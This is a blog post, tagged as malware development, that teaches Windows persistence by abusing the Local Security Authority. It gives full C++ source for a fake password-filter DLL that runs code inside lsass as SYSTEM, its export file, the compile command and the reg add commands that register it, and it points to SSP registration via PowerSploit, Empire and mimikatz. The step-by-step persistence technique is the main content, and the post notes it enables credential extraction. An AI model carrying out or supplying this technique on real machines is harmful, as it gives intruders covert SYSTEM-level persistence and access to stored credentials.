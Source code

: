 ```yaml
---
layout: post
title: Using LSA for Windows persistence
date: 2023-11-26
categories: [Malware Development,Persistence]
tags: [persistence]     
---
```



The Local Security Authority (LSA) is a subsystem in Windows architecture that authenticates and logs users to the local systems. It's responsible for verifying password changes, login attempts, creating access tokens, and performing general Windows authentication and authorization tasks. The LSA also contains the Local Security Policy, which contains aspects about everything related to local security. 

It achieves this through a process called Local Security Authority Subsystem Service (lsass.exe), which we all love dumping the memory of thanks to its contents. LSASS caches all kinds of credentials like the DPAPI masterkey, Kerberos passwords, tickets, ekeys, pins and so on.

What may surprise you is that LSA can also be used for persistence, in which case our code will be executed inside the lsass's process memory. Consequently, the code will run as the SYSTEM user, and we will be able to extract credentials from the address space. All of these techniques involve creating DLLs to be loaded by LSA into the lsass process. 

These techniques might not work if lsass is running as Protected Process Light (PPL), because our DLL has to be signed by Microsoft. I will talk about bypassing PPL in another post. For now, let's discover a few persistency procedures involving LSA.


### Password filters

LSA password filters are used to validate password changes against password policies. When you try to change your password, the LSA calls each registered password filter twice: once to verify the new password, and then to notify the filters that the change has been made. 

A password filter has to export three functions to be successfully registered:

- `InitializeChangeNotify`
This function gets called when the password filter is loaded into the LSA
- `PasswordFilter`
This function validates the newly created password
- `PasswordChangeNotify`
This is the function that gets called when the password is successfully changed

Here is a simple implementation, which will open a cmd shell and display the message "Persistence!" if our method is successful. Let's name this file `filter.cpp` 

```cpp
#include <windows.h>
#include <stdio.h>
#include <WinInet.h>
#include <ntsecapi.h>

int hack(void) 
{
   STARTUPINFO si;
   PROCESS_INFORMATION pi;

   ZeroMemory(&si, sizeof(si));
   si.cb = sizeof(si);
   ZeroMemory(&pi, sizeof(pi));

   wchar_t cmdLine[] = L"cmd /K echo Persistence!";

   if (!CreateProcess(NULL, cmdLine, NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi))
   {
       
       return 1;
   }

   
   CloseHandle(pi.hProcess);
   CloseHandle(pi.hThread);

   return 0;
}

BOOLEAN __stdcall InitializeChangeNotify(void) 
{
   // We start our hack function, and return TRUE to let LSA know that everything went right
    HANDLE th;

    th = createThread(0, 0, (LPTHREAD_START_ROUTINE) hack, 0, 0, 0);
    WaitForSingleObject(th, 0);

    return TRUE;
}

NTSTATUS __stdcall PasswordChangeNotify(PUNICODE_STRING UserName, ULONG RelativeId, PUNICODE_STRING NewPassword) 
{ 

    return 0; 

}
BOOLEAN __stdcall PasswordFilter(PUNICODE_STRING AccountName, PUNICODE_STRING FullName, PUNICODE_STRING Password, BOOLEAN SetOperation) 
{ 
    // this function returns TRUE in order to tell LSA that the password is ok
    return TRUE; 

}
```

We also need to export the functions we defined, by creating a file `filter.def`.

```
LIBRARY
EXPORTS
  InitializeChangeNotify
  PasswordFilter
  PasswordChangeNotify
```

Finally, to create our DLL we can compile those two as such:

```
cl.exe /W0 /D_USRDLL /D_WINDLL filter.cpp filter.def /MT /link /DLL /OUT:filter.dll
```

Then, to register this fake "password filter" we need to change the `Notification Packages` entry in the `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa` registry key to contain the name of our DLL. But first, let's see the current value of the aforementioned entry:

```
reg query "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa" /v "Notification Packages" 

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa
    Notification Packages    REG_MULTI_SZ    scecli
```
We see that it holds the value `scecli`, and it is a `REG_MULTI_SZ` type, which means that it contains a sequence of null-terminated strings, `Kind\0Of\0Like\0This\0\0`. The first '\0' terminates the first string, the second-from-last `\0` terminates the last string, and the final `\0` terminates the sequence.

So to add our DLL to the `Notification Packages` entry, we must copy our `filter.dll` to `%windir%\System32\` and then execute:

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa" /v "Notification Packages" /d "scecli"\0"filter" /t REG_MULTI_SZ /f
```

After a restart, LSA should load our dll into its address space, and now we have persistence.


### Authentication packages (AuthPkg) and Security Support Provider (SSP)

Authentication packages are mainly used for instructing LSA on what basis to authenticate a user. For example, the MSV1_0 AuthPkg checks the SAM database to determine whether the provided credentials are correct or not. SSPs on the other hand, are an implementation of security protocols like Kerberos or NTLM. 

LSA automatically loads all registered SSPs and AuthPkgs into its process at boot:

- In the case of SSPs it calls the `SpLsaModeInitialize` function to obtain pointers to the functions implemented by each security package in that DLL. Those pointers are passed to the LSA in an array called `SECPKG_FUNCTION_TABLE`. 

- In the case of an AuthPkg, LSA calls `LsaApInitializePackage` to initialize the authentication package.

To achieve persistence using this method, all we have to do is copy the dll to `%windir%\System32` and add it's name to the `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa\Security Packages` registry. Alternatively, we can use PowerSploit's `Install-SSP` function or Empire's `install_ssp` module.

For example, we can look at Mimilib. Particularly, the [kssp.c](https://github.com/gentilkiwi/mimikatz/blob/master/mimilib/kssp.c) component.


### Extras

If you wish to see another implementation of process filters, check out [this code](https://github.com/gtworek/PSBits/blob/master/PasswordStealing/PSPY.c). I also suggest reading more about authentication packages and SSPs from the official Microsoft docs, as I haven't covered those concepts in great depth.

Thank you for reading until the end!


### Resources 

https://learn.microsoft.com/en-us/windows/win32/secauthn/authentication-packages
https://learn.microsoft.com/en-us/windows-server/security/windows-authentication/security-support-provider-interface-architecture
